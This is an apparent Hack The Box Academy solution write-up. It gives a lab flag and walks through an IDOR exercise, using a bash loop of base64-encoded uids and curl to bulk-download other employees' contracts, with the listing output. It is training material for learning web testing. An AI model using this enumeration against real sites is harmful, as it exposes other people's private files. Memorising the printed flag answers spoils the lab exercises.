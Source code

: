 ```
┌─[us-academy-1]─[10.10.14.20]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ cat flag_11dfa168ac8eb2958e38425728623c98.txt

HTB{4ll_f1l35_4r3_m1n3}
```

Answer: `HTB{4ll_f1l35_4r3_m1n3}`

# Bypassing Encoded References

## Question 1

### "Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly."

After spawning the target machine and viewing the page source of the `/contracts.php` page, students will notice that the `/download.php` page takes the `contract` parameter with the value being the base64 of `uid`:

![[HTB Solutions/CBBH/z. images/f4b98e812797a9315354559c9fca1b40_MD5.jpg]]

Thus, students need to write a script that will loop over the different employees' `uid` from 1 to 20 and base64 encode them so that they get passed as values for the `contract` parameter and download the corresponding files:

Code: bash

```bash
for i in {1..20}; do
    for hash in $(echo -n $i | base64 -w 0); do
        curl -sOJ "http://STMIP:STMPO/download.php?contract=$hash"
    done
done
```

After running the script, students will have 20 PDF files downloaded, and to know which one of them contains the flag, students can use `ls` with the `-l` flag to notice that all of them are empty except `contract_98f13708210194c475687be6106a3b84.pdf`:

Code: shell

```shell
ls -lAS contract_*
```

```
┌─[us-academy-1]─[10.10.14.9]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ls -lAS contract_*

-rw-r--r-- 1 htb-ac413848 htb-ac413848 30 Jul 25 18:04 contract_98f13708210194c475687be6106a3b84.pdf
-rw-r--r-- 1 htb-ac413848 htb-ac413848  0 Jul 25 18:04 contract_1679091c5a880faf6fb5e6087eb1b2dc.pdf
-rw-r--r-- 1 htb-ac413848 htb-ac413848  0 Jul 25 18:04 contract_1f0e3dad99908345f7439f8ffabdffc4.pdf
-rw-r--r-- 1 htb-ac413848 htb-ac413848  0 Jul 25 18:04 contract_45c48cce2e2d7fbdea1afc51c7c6ad26.pdf
-rw-r--r-- 1 htb-ac413848 htb-ac413848  0 Jul 25 18:04 contract_6512bd43d9caa6e02c990b0a82652dca.pdf

<SNIP>
```
